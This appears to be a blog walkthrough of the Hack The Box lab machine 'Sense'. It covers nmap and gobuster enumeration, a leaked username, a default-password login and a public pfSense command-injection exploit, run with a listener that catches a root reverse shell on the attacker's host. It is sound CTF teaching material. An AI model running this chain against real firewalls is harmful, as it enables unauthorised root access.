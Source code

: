 ```yaml
---
layout: post
title: "HTB-Sense"
date: 2020-02-16 13:56:00 +0000
categories: HTB-Walkthrough
---
```


![sense](http://localhost:4000/sh1n0bi-dojo/assets/img/sense.png)

Sense is another straightforward retired HTB box. Its OSCP-like in that enumeration reveals a known vulnerability, and public exploit that enables us to compromise it.

Nmap scans first then...

`nmap -sV -Pn --min-rate 10000 -p- 10.10.10.60 |tee -a sense.txt`

{% highlight ruby %}
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
Host is up (0.11s latency).
Not shown: 65533 filtered ports
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
443/tcp open  ssl/https?
|_ssl-date: TLS randomness does not represent time
{% endhighlight %}

Port 80 redirects us to the https port (443).

Gobuster is a great directory-brute forcer (like dirb and dirbuster) which is fast and easy to use.

when using it against https its often easiest to use the `-k` flag to avoid ssl/tls problems which could make the enumeration fail.

`gobuster -u https://10.10.10.60/ -w /root/wordlists/SecLists/Discovery/Web-Content/common.txt -x .sh,.php,.asp -k`
Starting with a common.txt file to use with it, if nothing is found we could progress to something more comprehensive, but would take longer.
You can also speed things up with increasing the threads that gobuster uses, 50 for example...with a `-t 50` flag...but I didnt in this instance.

{% highlight ruby %}
=====================================================
Gobuster v2.0.0              OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : https://10.10.10.60/
[+] Threads      : 10
[+] Wordlist     : /root/wordlists/SecLists/Discovery/Web-Content/common.txt
[+] Status codes : 200,204,301,302,307,403
[+] Extensions   : php,asp,sh
[+] Timeout      : 10s
=====================================================
2019/11/12 12:06:05 Starting gobuster
=====================================================
/classes (Status: 301)
/css (Status: 301)
/edit.php (Status: 200)
/exec.php (Status: 200)
/favicon.ico (Status: 200)
/graph.php (Status: 200)
/help.php (Status: 200)
/includes (Status: 301)
/index.html (Status: 200)
/index.php (Status: 200)
/index.php (Status: 200)
/installer (Status: 301)
/javascript (Status: 301)
/license.php (Status: 200)
/pkg.php (Status: 200)
/stats.php (Status: 200)
/status.php (Status: 200)
/system.php (Status: 200)
/themes (Status: 301)
/tree (Status: 301)
/widgets (Status: 301)
/xmlrpc.php (Status: 200)
/xmlrpc.php (Status: 200)
=====================================================
2019/11/12 12:09:26 Finished
=====================================================
{% endhighlight %}

Gobuster gives us a bunch of goodies to investigate, but nothing seems to give us any real progress;
We can see that the server is using 'pfsense', but we cant login with any of the normal admin/admin creds or other weak variants.
Searching online for default creds we find some (admin/pfsense), but they don't work.

Perhaps we're missing something, we tried gobuster with a limited common list initially, so we'll try again with a better directory list.
Dirbuster comes with a very reliable set of files to use, but I prefer to use them with gobuster.

`gobuster -u https://10.10.10.60/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt -k -t 50`

This takes a lot longer, and does return something more interesting
`/system-users.txt`

browsing to the page we find a snippet of information which shouldn't be publicly accessible...


{% highlight ruby %}
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
{% endhighlight %}

We try to login again with username:rohit and password:pfsense, and sucessfully gain access to the pfsense dashboard.


We can search online, google, or the exploitdb website for known exploits, or just use searchsploit from the kali terminal...
{% highlight ruby %}
root@kali:~/HTB/prep/sense# searchsploit pfsense 2.1.
------------------------------------------ ----------------------------------------
 Exploit Title                            |  Path
                                          | (/usr/share/exploitdb/)
------------------------------------------ ----------------------------------------
pfSense < 2.1.4 - 'status_rrd_graph_img.p | exploits/php/webapps/43560.py
------------------------------------------ ----------------------------------------
Shellcodes: No Result
{% endhighlight %}

Copy the exploit, read it carefully to find out how to use it, and what it does....then give it a try...

Dont forget to set an nc listener ready to catch the reverse shell...

{% highlight ruby %}
root@kali:~/HTB/prep/sense# python3 pfsense.py --rhost 10.10.10.60 --lhost 10.10.14.34 --lport 6969 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
{% endhighlight %}

The exploit works a treat, and gives us a lovely shell...

{% highlight ruby %}
root@kali:~/HTB/prep/sense# nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.60] 2334
sh: can't access tty; job control turned off
# id
uid=0(root) gid=0(wheel) groups=0(wheel)
# cat /root/root.txt
dxxxxxxxxxxxxxxxxxxxxxxxxxxxx6
# ls /home
.snap
rohit
# cat /home/rohit/user.txt
8xxxxxxxxxxxxxxxxxxxxxxxxxxxxb 
# hostname
pfSense.localdomain
# whoami
root
# 
{% endhighlight %}

Flags are obfuscated because SPOILERS....(he says giving you a step-by-step !!!)

